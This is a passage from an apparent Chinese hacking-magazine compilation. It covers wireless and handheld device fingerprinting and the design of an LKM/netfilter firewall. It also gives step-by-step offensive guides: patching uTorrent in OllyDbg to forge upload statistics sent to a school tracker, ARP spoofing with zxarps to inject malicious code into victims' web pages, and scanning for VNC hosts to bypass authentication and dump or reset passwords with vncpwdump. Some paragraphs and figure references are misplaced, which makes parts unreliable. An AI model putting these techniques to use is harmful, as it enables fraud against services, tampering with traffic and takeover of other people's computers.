| T2~T7 | 构造 TCP 探测报文 | 通过插入 SYN、FIN、URG、PSH、FIN 等不同类型标志位构造不同数据包来实现探测 |
| IE | 针对 IE 位的探测 | 通过向目标地址发送 2 个不同设置的 ICMP ECHO 请求报文，查看其应答来判断 |

### 2. 被动式指纹识别

作为被动式指纹识别的典型代表有 P0f、Xprobe2、SinFP 等，其中，P0f 是一个出色的网络操作系统被动识别软件。与主动式探测软件不同，它不向目标系统发送任何数据，只是被动地接收来自目标系统的数据进行分析，所以一般无法被发现。它的识别数据库比较齐全，但已经很久没有完整更新，所以对于较老的操作系统识别准确性是比较高的，不过一旦对比较新的操作系统，比如 Ubuntu10.4、MacOS10.4 等这样较新版本的系统是没有办法识别的。

下面是一个典型的使用 P0fV2 进行被动式监听截获的数据报文，可以清晰地看到识别为 Windows XP/2000 的提示，但同时我们也能发现 P0fV2 不能够告知我们详细的系统补丁版本，比如到底是 Windows XP SP2 还是 SP3？

```txt
120.71.158.244:9162 - Windows XP/2000 (RFC1323+, w+stamp+)
[GENERIC] Signature: [64380:112:164:M1372,N,W0,N,N,T0,N,N,S::Windows:2:213:134:28:25:80 (distance 16, link: unknown:1412)]
```

## 无线网络与有线网络的异同

通常情况下，现在很多朋友提及的无线网络指的仅仅是 WLAN，即无线局域网，稍微广泛一点的，还会包含蓝牙、红外、RFID 等短距离无线技术。至于范围更广的 3G、CDMA 及 GSM 等技术，很遗憾，这次不属于本文讨论的范围。

在过去的数年中，无线网络的迅猛发展为局域网组网布线提供了更多的依据和解决方案，与此同时，也为无线黑客们开始将有线网络中早已成熟的指纹探测技术运用到了无线网络的扫描及攻击中，甚至一度有很多人认为无线网络设备的识别依靠 Nmap 的 OS 指纹识别功能就可以。Nmap 依赖于一个前提，即需要先连接到目标无线路由器所提供的同一个网络中或者路由器可达的网段，估计大多数人都没意识到这个前提的麻烦程度，这很可能是需要破解 WPA-PSK/WPA2-PSK 密码的！尤其是采用了 12 位以上高复杂度密码的，对于黑客们来说难度可不是一点点！不过相信很多正在玩无线 Hacking 的朋友们可能会想到利用 BSSID 查询无线设备的思路。的确，单纯地依靠 Airodump-ng、Kismet 等无线探测工具来获得无线设备 BSSID，即 MAC 地址来识别网络设备，也可以算是一种检测方法，但是这样的方法并不能够列举出详细的无线设备厂商、具体型号、版本等，这样的所谓无线网络设备识别是“不完整”的。遗憾的是，很多朋友似乎都忘记了一点，至少我在国内各大无线论坛都没有看到其他人在注意这个问题。

我想，有必要强调一下，无线有其自身的特殊性，就是所有数据都是在空气中传播的，看不到摸不着，但电波始终在传播着，这就是突破的角度。下面，就让我们分别从有线网络和无线网络两个技术角度来了解一下对无线网络设备的指纹识别。

## 基于有线网络技术的指纹识别

对于接入有线网络的无线路由器来说，管理员、安全人员及黑客们都会使用多种传统的方法来发现和识别。具体判断依据主要有端口、SNMP、UPNP 等。

- 1. 通过开启的端口判断

由于基本上大多数无线接入点/路由器都是支持 Web 进行配置，所以其 80 端口都是开放的。那么通过使用端口扫描器扫描内网所有主机的 80 端口，查找所有开放 80 端口的主机，排除掉正常提供 Web 服务（如 IIS、Apache 等）的主机，其余的就是可疑的无线路由器或无线接入点了。当然，这里面也有传统的路由器等有线网络设备，所以就需要进一步确认。该方法适用于目前市面上主流的 TP-LINK、D-Link 及 Linksys 等多数无线路由器。

一般来说，通过简单的主机 Alive 扫描，即存活主机扫描，无线黑客们会先对全网段扫描，这个功能极其有用，判断一下当前网络中有哪些主机在线是一个良好的习惯。由于 nmap 发送的 ICMP 报文与 Ping 命令极为相似，所以下面的命令可以探测到防火墙后面的主机，尤其是那些没有禁止 ICMP 协议的软件防火墙，下述方法成功率高达 95% 以上且不会引起防火墙报警。具体命令如下：```bash
nmap -sP IP


```

参数解释：

- `-sP`，这就是常说的 Ping 扫描了，很简单，高手可以略过了。
- 按 Enter 键后，可以看到如图 1 所示内容。
图 1

然后，在扫描结果的基础上，对开启 80 端口的设备进行具体版本识别。此版本识别依赖于 Nmap 自带的操作系统/网络设备指纹库。

```bash
nmap -vv -sV IP -p port


```

参数解释：

- `-vv`，显示详细的扫描过程；
- `-sV`，这就是 Nmap 下的版本探测参数；
- `-p`，后跟具体的端口。

扫描结果如图 2 所示，黑框内标出了探测到的端口信息。可以看到，该地址为一台无线路由器，型号为 D-LINK DWL-900AP+，版本号为 2.56，为人为非法搭建 AP。通过在网关上设定规则可以屏蔽该无线路由器连接外部网络，此时即可配合无线搜寻设备来定位该无线路由器。
图 2

对于一些设计不严谨的无线接入点，甚至可以直接在浏览器中输入怀疑的地址。在弹出的登录界面上，也能够查看到对方的版本提示。如图 3 所示，在登录框上面显示为 Linksys WRT54GP2A-AT 无线路由器。

需要注意的是，通过端口扫描判断无线路由器或者接入点时，一般不仅仅依赖于对 80 端口的判断。一些无线网络设备除了 80 端口之外，也会开启一些很少见的端口，这些也将是我们判断无线设备的依据。这里在如表 3 所示中给出部分实例以供大家参考。
图 3

表 3

| 无线路由器品牌 | 默认开放端口 | 特殊开放端口（个别） | 市面主流产品 |
|---|---|---|---|
| Belkin（贝尔金） | 80 | 53 | F5D7230 |
| Linksys（思科） | 80 | 2869 | WRT54G |
| D-Link | 80 | 52869、515 | DI-524、DI-624 |

当然，也并不是所有的无线设备默认都支持从外部网络访问到其配置页面，这点尤其要注意，所以就需要更多的方法来确认，比如方法 2：特定 ARP 报文探测。

### 2. UPNP 探测

在默认情况下，绝大多数无线网络设备都支持 UPNP 设置，并且在默认情况下都已开启这项。通过前期扫描先行确认疑似无线网络设备的 IP，如图 4 所示，使用 NMAP 检测到 10.0.0.1 为 D-Link 产品。
图 4

然后使用简单的 UPNP 工具搜索当前内部网络，如图 5 所示，通过使用 UPNP 扫描工具，即可看到目标无线设备的厂商名称、具体型号及版本提示。即获得无线网络产品为日本 BUFFALO 无线路由器，具体型号为 WHR-HP-G54，设备版本号为 1.40。甚至在下方我们都获取到了该产品的详细 UDN 编号。

### 3. SNMP 探测

大多数有线网络中总有一些设备运行着 SNMP 服务，无线网络也是一样。在连接至有线网络的无线网络设备中，也总会有一些产品默认支持 SNMP 服务。其实很多时候这些 SNMP 服务是不必要的，但却没有引起网络管理员的重视。更令人觉得遗憾的是，很多设备的 SNMP 字符串设置保持了产品出厂默认设置，并没有在使用后更改，这样更是增加了可能面临的安全危机。
图 5

在这个名为 digis.dat 的指纹库文件中，内容均是以某些款型无线路由器在广播或者与无线客户端之间传递数据时所具有的特征性代码来存储的，比如产品型号、默认 WPS 版本、广播信息。只要在监听无线网络的过程中，探测到出现符合其中任意一个特征码的数据包时，就会出现一个疑似该型号无线路由器的百分比描述。而若是出现多个符合的特征码时，则会加强和指纹库文件中定义的无线路由器型号的吻合度，换句话说，就会出现一个较高的百分比描述。

如图 7 中黑框处所示，在经过简短监听后，wifinger.py 分析出当前无线网络中存在一台 Belkin 品牌无线设备，其具体型号很可能为 Belkin G+ MIMO F5D9230-4。
图 7

无论是对于安全人员还是黑客们而言，有很多工具都能够协助人们查找及识别开启 SNMP 的无线网络设备。如图 6 所示，使用 SOLARWINDS 中的 MIB Walk 工具，利用默认字符串对疑似无线网络设备进行查询，可以看到找到一台名为 Linksys 的无线路由器，其默认开启了 SNMP 服务。
图 6

类似地，如图 8 中黑框处所示，判断出当前无线网络中存在一台 D-Link 的型号为 DIR-624 的无线路由器，以及一台疑似 D-Link DIR-628 的无线路由器。
图 8

好了，上面就是一些典型的通过传统有线网络技术来进行无线设备指纹识别的方法和思路，下面看看基于无线网络技术的指纹识别。

## 基于无线网络技术的指纹识别

### 1. 通过分析无线报文实现

和有线网络中常提到的操作系统指纹判断一样，对于无线网络设备，同样存在着诸多可用于判断其产品类型的方式。比如该无线网络设备在进行广播时，会发送一些特定数据报文，在这些数据报文中存在一些 Banner，可以帮助安全人员或者黑客们判断出该产品的具体型号。

最出名的工具有 wifinger.py，这款基于 Python 开发、工作在 Linux 环境下的工具采用了被动式探测方法。所谓被动式探测，就是指处于 Monitor 监听模式的无线网卡，在不发送任何数据包的前提下，对无线网络中的全部流量进行过滤和分析，并自动将其中区分出来的无线设备列举出来。当然，区分的主要依据是一个名为 digis.dat 的指纹库文件。这个文件和 NMAP 中的指纹库文件一样，都需要定期更新。

在这个名为 digis.dat 的指纹库文件中，我们可以看到，其中内容均是以某些款型无线路由器在广播或者与无线客户端之间传递数据时所具有的特征性代码来存储的。

需要说明的是，由于该指纹库覆盖面有限，所以除了较为有名的无线设备品牌及市场占有率较高的型号外，一些影响力较小的品牌或者在北美及欧洲地区市场占有率较小的产品，暂时是无法识别的。比如在数月前测试时，仍无法识别日本的 BUFFALO 和韩国的 IPTIME 这两个无线品牌产品，这个有待于指纹库的不断更新和改进。

### 2. 基于 WPS 的判断

WPS 是由 WiFi 联盟所推出的全新 WiFi 安全防护设定（WiFi Protected Setup）标准。该标准推出的主要原因是为了处理长久以来无线网络加密认证设定步骤过于繁杂艰难之弊病，运用者往往会因为步骤太过麻烦，以致于不做任何加密安全设定，因而引发许多安全问题。通过无线路由器上的 WPS 键可以让用户高速、轻松地加密无线网络传输数据，阻止非法用户入侵。一方面保证了无线网络的安全，另一方面又让用户配置加密更加轻松，每个人都可以很容易上手。

那么，通过对开启 WPS 功能的无线设备扫描，也能够协助无线黑客们判断出无线设备的具体类型。如图 9 所示，使用 `wpscan.py` 进行被动式扫描，能够获取到开启 WPS 功能的无线设备当前状态。在获取到 WPSScan 功能状态的同时，也能够获取到一些该无线网络设备的相关信息。比如图 9 中黑框处所示，在 “Model Name” 处，就识别出为 Belkin 的型号为 F5D7230-4 的无线路由器，甚至可以显示出具体版本为 v9。
图 9

由于图 9 所示内容源自 WPS 的广播数据，所以结果尤为可信和准确，不像之前无线设备指纹检测那样存在一定的吻合准确度问题。但是需要注意的是，并不是所有无线网络设备都具备 WPS 功能。

## 针对手持设备的指纹识别

本文所说的手持设备包括但不限于智能手机、PDA、UMPC 等。针对手持设备的指纹识别而言，主要有两个思路：一是若该手持设备支持 WiFi，并已经连接到某一个无线网络进行上网操作，比如咖啡屋等地方，此时就可以使用本文之前所提及的有线网络指纹识别方法来判定。

第二个思路是若该手持设备没有开启 WiFi，或者直接就不支持 WiFi 功能，但是当前开启了蓝牙功能，那么也能够通过对蓝牙的扫描来获取该设备 MAC、机型等信息，从而达到系统识别的目的。这种情况很常见，很多场合随便打开蓝牙搜索都能搜到不少开启蓝牙功能的设备，主要都是智能手机，其中大部分还是默认开启的。
图 10

为方便大家学习，我把蓝牙扫描结果中较为典型的几种显示对应机型归纳如表 4 所示，其中，XXX 指代被省略的具体型号。

## 表 4

| 蓝牙扫描结果 | 对应厂商及机型 | 备注 |
|---|---|---|
| Nokia XXXX | Nokia 智能手机，XXX 为具体机型 | 此为默认蓝牙名称设置 |
| SGH-XXX | 三星智能手机，XXX 为具体机型 | 此为默认蓝牙名称设置 |
| MTKBTDEVICE | 绝大多数为山寨机，也可能是某些厂商简化成本采用 MTK 芯片生产的产品 | 这里 MTK 指采用台湾联发科的芯片，BT 指 Bluetooth，DEVICE 就是设备的意思 |
| iPhone | 苹果推出的 iPhone 系列智能手机 | 默认情况下无设备型号区别 |
| SCH-XXX | 三星智能手机，XXX 为具体机型 | 此为默认蓝牙名称设置 |

当然，通过厂商编码来识别也是一个很有效的办法，但这个就需要建立大型的库来实现。

## 特殊无线网络设备识别

除了现在市面上销售的无线网络设备之外，还存在一些经过处理的无线设备。所谓处理有很多种方法和可能，比如刷新过 Firmware（即更新为第三方固件）的无线路由器、定制型企业无线网络设备、硬件修正设备等，限于本文篇幅就不一一列举。下面我们来看看刷新无线路由器 Firmware 的第三方固件。

目前，比较有名的第三方固件有 DD-WRT、OpenWRT、FreeWRT 以及 Tomato 等。其中，最为有名的 DD-WRT 是一个基于 Linux 的无线路由固件，基于 GPLv2 发布。

DD-WRT 提供了许多一般路由器固件所没有的功能，例如支持 Xlink Kai 游戏协议、基于守护进程的服务、IPv6、无线分布式系统（无线网桥和无线中继）、RADIUS、先进服务质量控制、无线输出功率控制、超频能力，以及 SD 卡的硬件配置提供软件支持。
图 11

那么，这些刷新过固件的无线路由器虽然 MAC 地址没有改变，但是在设备系统上却更换为了简化版 Linux OS。这也就使得在内网环境下，常见的操作系统指纹扫描可以通过开放的端口及服务来判断出内置 WEB 版本和 Linux 内核版本。也可以如同本文前面小节提及的 SNMP、UPNP 等技术点来进行 OS 识别。
图 12

而从外部无线网络角度来分析，若默认的类似“ddwrt”这样的 SSID 没有修改的话，我们还可以通过使用 Kismet、Airodump-ng 等简单地判断及识别出该设备为刷新过对应固件的设备，也可以通过前面提及的无线报文分析或者 WPS 等方式进行深度识别。

## 小结

综上所述，无论是安全人员还是无线黑客们，如果想要在现有内网中查找无线网络设备，或者直接从外部查找无线网络设备，都是有很多种方法及设备来实现的。但关于无线设备探测的工具和方法远不止本文提及的这几种，感兴趣的读者可以自行深入研究。本文仅作为抛砖引玉。

前置知识：汇编  
关键词：BT、上传流量
# BT 上传流量的修改

文/图 coldzenleft

学校的 BT 最近清空了数据，于是以前的“T级”上传量就一起消失了。很多在学校中使用 BT 的人都知道，上传决定共享率。如果一般不做种子的人，或者下载后就关了 BT（为了节省资源和带宽）的人，上传量是肯定高不起来的，而偏偏我现在就是这种人。当然，我所进行的努力就集中放在如何修改啦。

首先介绍一下 BT。BitTorrent（简称 BT）是一个文件分发协议，它通过 URI 识别内容并且和网络无缝结合。其对比 HTTP/FTP 协议、MMS/RTSP 流媒体协议等下载方式的优势在于：一个文件的下载者们在下载的同时也在不断互相上传数据，使文件源可以是服务器源也可以是个人源。一般只指第一个做种子者或种子的第一发布者可以在承担很有限负载的情况下支持大量下载者同时下载，所以 BT 等 P2P 传播方式也有“下载的人越多，下载速度越快”这种说法。BT 是一种多点共享协议软件。

另外还有一点，提供 BT 的服务器称为 Tracker。把文件用 BT 发布出来的人需要知道该使用哪个服务器来为要发布的文件提供 Tracker。由于不指定服务器，BitTorrent 采用 BT 文件来确定下载源。BT 文件后缀名为 torrent，容量很小，通常是几十 KB。这个文件里面存放了对应发布文件的描述信息、该使用哪个 Tracker（记录下载用户信息的服务器）、文件的校验信息等。BT 客户端通过处理 BT 文件来找到下载源和进行相关下载操作。例如，我在 BT 数据包中一开始就可以看到如 PassKey 之类的值，注意这个值是可以重新申请的。

我们学校使用的 uTorrent.exe，经过简单抓包和文件分析，就发现了端倪，然后测试发现果然有效。

我首先对 uTorrent.exe 进行脱壳，其为 UPX 壳。脱壳时注意从 PUSHAD 入手，POPAD 出，然后下一个 JMP 则是程序的真正入口位置，如图 1 所示。
图 1

JMP 的位置 0046DF78 就是我们需要找的位置，这就是真正 uTorrent.exe 的入口。用 OD 进行 DUMP，把 BIN 重新用 PEiD 进行扫描，如图 2 所示。
图 2

分析数据包上，由于为了具体分析 uTorrent 的数据包，因此采用“封包助手”这类以函数钩子为主的抓包工具。通过简单的测试，发现 BT 下载内容调用的是 UDP 协议函数，故此忽略此类函数的挂钩。另外，将 uTorrent.exe 放入分析 PE 文件的工具（如 PExplorer），通过查看字符串，以及利用“封包助手”简单下载抓包测试，将重要的发包函数锁定为 `WSASend` 和 `WSARecv`。其中字符串：

`%S%cinfo_hash=%.20U&peer_id=%.20U&port=%d&uploaded=%ld&downloaded=%ld&left=%ld&corrupt=%ld&key=%.8X%s&numwant=%d&compact=1&no_peer_id=1%s%s`

很值得重视，因为每次开始拖入种子的时候，都有数据包，如图 3 所示。
这里就是种子开始下载时的一种初始化状态值，通过 `WSASend` 发给 202.112.*.*，并且还收到来自服务器的成功返回（200 OK）。经过查实，如图 4 所示。

这应该是学校的 BT 服务器。由于 BT 的原理是 P2P，比如我上传了多少数据，就将上传的数据发给服务器。根据 Tracker 服务器的原理，其是不会直接验证的。如果模拟发一个假的数据包，那么会怎么样呢？

在 BT 中下了一个小文件“3D 魂斗罗威力加强 v1.中文版硬盘版 飞行射击简体中文.torrent”，其对应文件也就 47.7MB。当我起初下载的时候，`uploaded=0`，`downloaded=0`，`left=`（剩余文件大小）。当我下载完了之后，请一个同学也下载同样的文件，于是我就有了 15.8MB 的上传量，如图 5 所示。
而且，此时 `uploaded=FE0000`（16646144），看来这个数据单位是字节。

后来经过试验，利用 OD 加载 uTorrent.exe，在调用该字符串的地方（肯定是 PUSH String_offset 一类的），在函数 `sprintf` 处设了一个断点，通过分析最后发现如图 6 所示。
通过观察可以得知，`uploaded` 应该是第 6 个参数，且函数属于 StdCall，所以倒数第 6 个 push 就是 `uploaded` 的值。

我们先下载开始，这时会被断下来，然后什么都不改直接按 F9 键跳过。因为我猜测 `uploaded` 前后的差值就是你的上传值。当选择 uTorrent 停止的时候，如图 7 所示。
此时又会有第二次断下来。按照我现在的时间（大概 2:34 分），所有人都睡觉了吧，反正没有人下载了，何况这是个冷门游戏。这个时候我回到 OD，将 `uploaded` 的 0（本来没有上传）改为 `0xEE6B2800`（大概是 4GB 吧）。注意看我改之前是 6.28GB，如图 8 所示。
现在我来修改栈中的数据，如图 9 所示。
然后，注意看 BT 软件，uTorrent 还是显示我只上传了 15.8MB，如图 10 所示。
然后刷新登录网页，看看我重新登录后的状态，如图 11 所示。
我并没有下载（前后两次都是 8.67GB），就为 BT 上传做出了这么大的贡献。上传量的确是 4GB 左右。当然！主要还是因为学校的 BT 是开源而非定制版本，并且服务器缺乏一些有效的验证，才使得我能够修改成功。

到时候，只要编程，然后 HOOK 一下 WSASend 函数，对数据包进行一些简单的修改，开着 BT 等待定时上传流量数据，就可以实现一个自动化工具了。

- 前置知识：无
- 关键词：无

# 浅谈内网 ARP 数据修改

文/GF
## HTTP 协议层的问题

如果是要挂马，那么分析 HTTP 协议是必不可少的步骤。但事实上很多大型网站都会采用 GZIP 压缩数据以及 chunked 编码传输，比如谷歌和百度。所以我们如果用抓包工具，经常会看到类似乱码的东西。如图 1 所示，是用 winsockexpert 抓包结果。
当然，用更底层的抓包工具也会是这个样子。关于这两个名词概念和作用这里不再多说，下面直接说解决办法。目前摆在眼前有两条路：1. 解密压缩编码后的这堆数据，并且还要注意在返回给被 ARP 端的浏览器时，这堆数据的处理。这是一个很痛苦的过程。2. 让浏览器回传原始数据的格式。

几番研究发现，其实 GZIP 压缩数据以及 chunked 编码都是需要双方协商的，一方没有提出或者不具备都是无法实现的。所以一个新的思路：监控所有的 HTTP 请求，发现请求关键字便替换掉。

```text
Accept-Encoding: gzip, deflate （请求）
Content-Encoding: gzip      （回应）
GET ... HTTP 1.1
Transfer-Encoding: chunked  （回应）
```

对于 Transfer-Encoding: chunked，将请求替换为使用 HTTP 1.0 的协议即可。

### 数据包的修改问题

这里讨论的是处在网络层的 IP 数据包。ARP 时，我们需要修改数据包进行类似挂马等操作。这很难避免数据包长度变化的问题。IP 数据包里包含 TCP 数据包，它们分别都有自己的校验和长度。稍有不慎就会导致包被拒收。但是当你千辛万苦将修改后的数据包重组貌似“合格”后，你会发现仍难逃 SEQ 和 ACK 的制约。所以最简单的办法是不改变数据包的长度。在不改变长度的条件下，想要插入我们自己的数据，只有替换这一个办法。网上我搜索到相关的工具有两个：arp sniffer 和 zxarps，前者是让用户去决定要替换的关键字，这样做几乎不可避免会影响网页的正常显示。而 zxarps 则是智能化地去替换 HTTP 协议里 header 中一些可有可无的部分。所以这也就解释了为什么 zxarps 有时会不成功：因为请求页面里的 header 部分可供替换的字节不够，所以放弃了插入操作！如图 2 所示是正常访问的数据，如图 3 所示是 zxarps 修改后的数据，插入的数据以“12345”开头，可以看到 ZXARPS 本次运气不错，从 header 里“争取”到了很多可利用字节。对比图 2 正常的 content-length 是 26，而修改后为 270。

效果如图 2 所示。

```text
000  01 23 d8 5c 33 e6 12 af f7 5d c3 01 08 00 45 00 ...
010  01 82 01 b0 40 00 77 06 f1 1e de d2 6f f9 cc a8 ...
...
180  74 65 73 74 20 66 6f 72 20 62 65 79 6f 6e 64 2e
```

图 2

```text
x00  00 0c 29 24 b6 4f 00 24 2a 4c 35 e6 00 30 45 00 ...
x10  01 82 01 b0 40 00 77 06 f1 1e de d2 6f f9 cc a8 ...
...
x80  74 65 73 74 20 66 6f 72 20 62 65 79 6f 6e 64 2e


```

图 3

并且这样做的另一个好处是不必再关心数据是否采用了 GZIP 压缩数据以及 chunked 编码传输。因为 header 部分是不受 GZIP 和 chunked 影响的。

因此，总的来说 ZXARPS 的办法在目前看来还是不错的。

前置知识：无

关键词：VNC、攻击、远程控制
# 远程控制服务软件 VNC 攻击案例研究

文/李晨光

在实际的网络使用中，VNC 的最大优点就是跨平台。因为不同的操作系统的界面处理方法都不一样，所以就有人开发了不同的 VNC 版本，因为都符合 VNC 协议，所以兼容性比较好。VNC 的版本比较多，而且是开放源代码，每个人都可以不断改进它。正是基于这一点，作为被广泛应用的一个远程控制程序，很多攻击者对 VNC 的攻击技术研究热情是高涨的……

本文将重点介绍针对各版本的 VNC 的攻击技术，以案例模拟的方式进行详细的操作和原理讲解，同时对不同版本的不同情况会有特别的提示。

- 1. VNC 客户端通过浏览器或 VNC Viewer 连接至 VNC Server；
- 2. VNC Server 传送一个对话窗口至客户端，要求输入连接密码（可能为空），以及存取的 VNC Server 显示装置；
- 3. 在客户端输入连接密码后，VNC Server 验证客户端是否具有存取权限；
- 4. 若客户端通过 VNC Server 的验证，客户端则要求 VNC Server 显示桌面环境；
- 5. 被控端将画面显示控制权交由 VNC Server 负责；
- 6. VNC Server 将把被控端的桌面环境利用 VNC 通信协议送至客户端，并且允许客户端控制 VNC Server 的桌面环境及输入装置。

## 功能强大的 VNC 攻击工具：vncpwdump

很让人诧异的是，国内没有针对 VNC 攻击技术的专门研究团队，大部分的 VNC 攻击技术和相关工具都是国外攻击者推出的，所以如果要深入研究 VNC 的攻防技术，在国内比较难找到新的技术资料，如这里将要介绍的 Vncpwdump……

Vncpwdump 的主要功能是获取 VNC 的密码，它提供多种获取方式，比如：从 NTUSER.DAT 文件中获取；从命令行输入获取；注入 VNC 线程获取；注册表中获取等。
图 1

## 使用 vncpwdump 对各版本进行攻击模拟

Vncpwdump 的功能很多，从它的使用界面来看，有如下的功能参数。下面对各参数的具体含义和使用方式做简单演示。

首先是 “-c” 和 “-s” 参数，这两个参数的意义是从注册表的 “HKEY_CURRENT_USER” 或 “HKEY_LOCAL_MACHINE” 下读取 VNC 的密码，因为版本不同，上述两个注册表键值中的其中一个会存在 VNC 的密码。其中 “HKCU” 是简写，代表注册表中 “HKEY_CURRENT_USER” 的位置。当我们打开注册表，找到相应位置的时候，密码内容就会逐步浮出水面，可以找到里面有一行，如图 2 所示。
图 2

```text
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4]
"Password"=hex:49,40,15,f9,a3,5e,8b,22
"SecurityTypes"="VncAuth"
"ReverseSecurityTypes"="None"
"QueryConnect"=dword:00000000
"QueryOnlyIfLoggedOn"=dword:00000000
"PortNumber"=dword:0000170c
...（其余注册表项省略）
```

```text
"UseHooks"=dword:00000001
"Protocol3.3"=dword:00000000


```

password 后的值就是加密的密码，虽然我们不能直接读懂它，但可以使用多种方法来破解，比如 VNCX4 和下面要介绍的 vncpwdump，如果你是高手那么用 Windows 自带的计算器也能搞定。

以 VNC 4 为例，使用 “-s” 参数可以直接得到相关的密码，如图 3 所示。可以看到上面设置的密码直接被读出：“123456”。
图 3

“-f” 参数后的说明是 “decrypts password in <file>”，也就是从文件中读出密码。通常情况下，攻击者会尝试使用 “NTUSER.DAT” 文件读取密码。“NTUSER.DAT” 和 “NTUSER.ini” 都属于系统的用户配置文件，里面存储了一些用户的相关配置信息，有一些版本的 VNC 会将密码存储于这个文件中，不过大家不必担心，一般情况下这个文件无法读出密码。

“-d” 参数的说明是 “dumps the password by injecting into runing process”，意思是以注入进程的方式读取密码。在实际的网络中，考虑到服务器的稳定性，一般不使用这个参数进行攻击。

“-k” 参数和 “-e” 参数是相对应的配套参数，“-k”的作用是在获得系统中存在的加密 VNC 密码以后解密；“-e” 参数的作用是将没有经过 VNC 加密的密码进行加密。先看看 “-e” 是什么效果，如图 4 所示。
图 4

从图 4 中可以看到，使用命令后得到加密后的 KEY 是 “494015F9A35E8B22”，实际上，这个 KEY 如果是 VNC 的链接密码的话，VNC 会将这个密码存放在注册表中的一个固定地方，每当用户连接的时候都会验证，如果管理员修改密码，这个值也跟着改变。再看看使用 “-k” 参数进行解密的命令，如图 5 所示。
图 5

可以看到密码 “123456” 已经被破解出来。“-s” 和 “-c” 参数也是成对使用的，功能类似。“-s” 参数用于直接修改 VNC Server 的链接密码，“-c” 参数用于修改当前用户的密码。举例来说，如果使用 “-s” 参数将 VNC 的链接密码改成 “123”，则使用如下命令，如图 6 所示。
图 6

这里需要注意的是，vncpwdump 的各个参数都是区分大小写的，大小写不同作用也不同，大家在实际使用过程中一定要注意区分。在实际的网络攻击中，当攻击者无法获得 VNC 密码时，就可以使用 “-s” 参数来强制改变 VNC 密码，但这样做也会被管理员发现。

## 针对 VNC 密码验证绕过漏洞的扫描

由于 VNC Server 采用的 RFB（远程帧缓冲区）协议允许客户端与服务端协商合适的认证方法，协议的实现上存在设计错误，可以使远程攻击者绕过认证，无须口令实现对服务器的访问。根据这一特点我们先扫描出“肉鸡”然后实施攻击，这里我们使用的工具是 Vncscan，虽然版本较旧但是用起来比较管用。运行截图如图 7 所示。
图 7

从图 7 中可知，这个程序主要包含 3 个部分，分别是 “target”、“scantype”、“option”，其中 “target” 用于定义扫描的 IP 地址范围，“scantype” 确定扫描的方式，“option” 是附带的其他参数。

举例来说，要批量扫描内部网络中安装了 VNC 的计算机，确定 IP 地址段为 192.168.0.1-192.168.0.254，VNC 默认端口是 5900，这样需要构造的命令如图 8 所示。
图 8

- “FOUND”，表示得到的结果数据；
- “PORT”，扫描的端口数；
- “IP”，扫描的 IP 数；
- “STATUS”，完成进度；
- “THREADS”，线程；
- “TOTAL/REMAINING”，用时。

从结果中我们看出 192.168.0.243 开放了 5900 端口。在实际的攻击过程中，攻击者往往都会利用自己控制的肉鸡进行大范围扫描，如果只通过在 CMD 下运行并查看结果，这样比较烦琐，所以这个扫描程序会在程序目录生成一个 TXT 文件，里面有扫描结果的记录，如图 9 所示。
图 9

图 9 中实际 IP 地址已处理，VNC_bypauth.txt 文件会记录开放 5900 端口的 IP 地址以及 VNC 状态。其中只有 “VULNERABLE” 是存在直接可以利用的漏洞，可以被攻击者利用，而 “patched,banned” 这两种状态没有用。

## 小结

本案例通过扫描 5900 端口，整理并找出存在 VNC 密码验证绕过漏洞的 IP 地址，通过 vncpwdump 软件直接破解密码；连接成功后，直接在该计算机上执行各种命令来实施完全控制。虽然 VNC 漏洞已经过去了很长时间，但是通过扫描我们发现目前依然存在很多 VNC 漏洞的计算机，笔者发现无论 Windows 平台还是 Unix/Linux 平台，VNC 4.1.1 以前版本均存在着 RealVNC 远程认证绕过漏洞，所以建议大家安装最新的版本或到厂家主页进行补丁升级，以避免此类问题的发生。

前置知识：无

关键词：LKM、Linux、防火墙

# 基于 LKM 的 Linux 防火墙设计
文/Wenliang Du，译/小小杉

本文将全面讲解如何设计与实现 Linux 平台下一个简单的个人防火墙。个人防火墙可以根据网络管理员的安全策略配置，对 PC 机网络通信的报文进行控制。防火墙存在多种类型，如包过滤防火墙、应用代理型等，本文主要关注包过滤防火墙类型。包过滤防火墙通过监视包过滤行为，判断待分析的包是否匹配包过滤设计的规则。

它可能会决定丢弃（DROP）这个包，或接受（ACCEPT）这个包，也可能执行其他更复杂的动作。包过滤是无状态的，它们仅依据当前包信息为基础进行判断，并不会智能性地判断包是否可能是通信中已存在的合法流。包过滤常使用源、目的地址、端口号、协议类型来鉴定包去向。

## 包过滤设计

本文将实现一个 Linux 包过滤防火墙，包含两个组件部分：策略配置与包过滤。

## 防火墙策略

策略配置模块可以方便系统管理员对防火墙策略进行恰当的配置。个人防火墙可支持大量的策略类型，从简单配置到复杂配置。对于个人防火墙，必须支持以下几种策略，以便对进出的包实施有效监控并决定是否放行。

- 1. 协议：确定目标协议类型，如 TCP、UDP 或 ICMP。
- 2. 源与目的地址：精确匹配源/目的地址（IP/子网掩码组合）。
- 3. 源端口与目的端口：匹配特定用户的源与目的端口号。
- 4. 动作：当包匹配规则时执行动作（阻止或放行特定地址，其他通信阻断）。

## 配置工具

必须为管理员提供配置防火墙策略的工具。文中将工具命名为 fwadmin，并给出若干使用示例，也可按需要调整语法。

- `fwadmin -in -proto ALL -action BLOCK`：阻止所有进入的数据包。
- `fwadmin -in -proto TCP -action UNBLOCK`：只允许进入的 TCP 数据包。
- `fwadmin -in -srcip 172.16.75.43 -proto ALL -action BLOCK`：阻止来自指定 IP 的包。
- `fwadmin -out -destip 172.20.33.22 -proto UDP -action UNBLOCK`：目的地址为 172.20.33.22 时解除输出 UDP 阻断。
- `fwadmin -in -srcip 172.16.0.0 -srcnetmask 255.255.0.0 -destport 80 -proto TCP -action BLOCK`：目的端口 80 时阻止来自 172.16.0.0/16 的 TCP 输入包。
- `fwadmin -print`：打印所有规则。
- `fwadmin -delete 3`：删除第三条规则。
- `fwadmin -stats`：打印各规则阻止数据包总数等统计信息。

## 任务 2：数据包过滤

防火墙的主要功能是数据包过滤，过滤器执行由管理员制定的策略。包过滤处理必须在内核中完成。Linux 提供了无需重建内核映像的机制，主要包括可加载内核模块（LKM）和 netfilter 防火墙。

LKMs 允许在运行期为内核添加模块，在不重建内核甚至不重启系统的情况下扩展功能。包过滤仅靠 LKM 还不够，还需要把模块插入到数据包处理管道中，这可通过 netfilter 的 hook 机制实现。

通过 Linux 内核中的 hook 操作，netfilter 防火墙可在不同数据路径位置注册回调。输入数据包到达后调用回调函数，函数可决定是否阻止数据包，也可原地修改数据包。

